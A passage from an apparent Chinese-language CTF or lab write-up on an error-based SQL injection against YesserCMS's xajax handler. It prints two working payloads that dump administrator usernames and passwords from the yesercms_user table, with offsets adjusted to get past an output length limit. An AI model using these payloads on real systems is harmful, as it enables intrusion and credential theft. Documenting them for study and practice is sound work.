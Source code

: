  好家伙，放在最后一个？手动不得累死我？？

随后爆出管理员账户和密码payload

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```

![](img/c9919d43e72a38271dd52c44533425a1.png)

 好家伙，又不给我爆完（输出长度的限制）

修改payload（1,32 改为32,64）

payload

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),32,64),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```

![](img/4111771a4611c794669741909bd79889.png)